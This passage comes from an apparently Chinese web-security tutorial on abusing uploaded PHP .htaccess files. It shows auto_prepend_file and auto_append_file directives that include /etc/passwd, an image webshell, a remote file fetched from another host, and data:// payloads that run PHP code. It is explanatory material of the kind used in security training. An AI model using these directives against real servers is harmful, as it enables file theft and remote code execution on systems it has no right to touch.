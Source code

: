 这两个配置选项用于设置访问一个 PHP 文件时，在该 PHP 文件解析之前会先自动包含并解析的文件。如下图当我们访问 index.php 时，便会自动将 /etc/passwd 包含进来：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t016746339893bb766c.png)

在实际的文件上传利用中，如果目标环境的当前目录中存在至少一个 PHP 文件且上传黑名单没有限制 .htaccess 文件的话，我们便可以上传包含以上指令的 .htaccess 文件，将我们需要读取的敏感文件包含进来并读取。

同理，我们也可以让 index.php 文件包含一个含有 Webshell 的文件来 Getshell，可用于图片马的解析：

```
php_value auto_prepend_file images.png
或:
php_value auto_append_file images.png
```

[![](https://p1.ssl.qhimg.com/t01919813555e1aaef4.png)](https://p1.ssl.qhimg.com/t01919813555e1aaef4.png)

#### <a class="reference-link" name="%E8%BF%9C%E7%A8%8B%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB"></a>远程文件包含

PHP 的 allow_url_include 配置选项这个选项默认是关闭的，如果开启的话就可以进行远程包含。因为 allow_url_include 的配置范围为 PHP_INI_SYSTEM，所以无法利用 php_flag 指令在 .htaccess 文件中开启。这里为了演示，就先在 php.ini 中设置 allow_url_include 为 On。

.htaccess 文件中的设置为：

```
php_value auto_prepend_file http://192.168.0.181/phpinfo.txt
或:
php_value auto_append_file http://192.168.0.181/phpinfo.txt
```

远程主机上的phpinfo.txt中的内容为：

```
&lt;?php phpinfo();?&gt;
```

这样，最终目标主机上的php文件都会包含这个远程主机上的 phpinfo.txt 并解析执行：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0173bea0d52430bebf.png)

### <a class="reference-link" name="%E4%BB%BB%E6%84%8F%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C"></a>任意代码执行

#### <a class="reference-link" name="%E9%80%9A%E8%BF%87%20PHP%20%E4%BC%AA%E5%8D%8F%E8%AE%AE"></a>通过 PHP 伪协议

这里主要用的还是 auto_prepend_file 或 auto_append_file 这两个配置项。

条件：
- allow_url_fopen 为 On
- allow_url_include 为 On
- 目标环境的当前目录中存在至少一个 PHP 文件
```
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
或:
php_value auto_append_file data://text/plian,%3c%3fphp+phpinfo()%3b%3f%3e
// 如果不使用base64加密则注意需要url编码
```
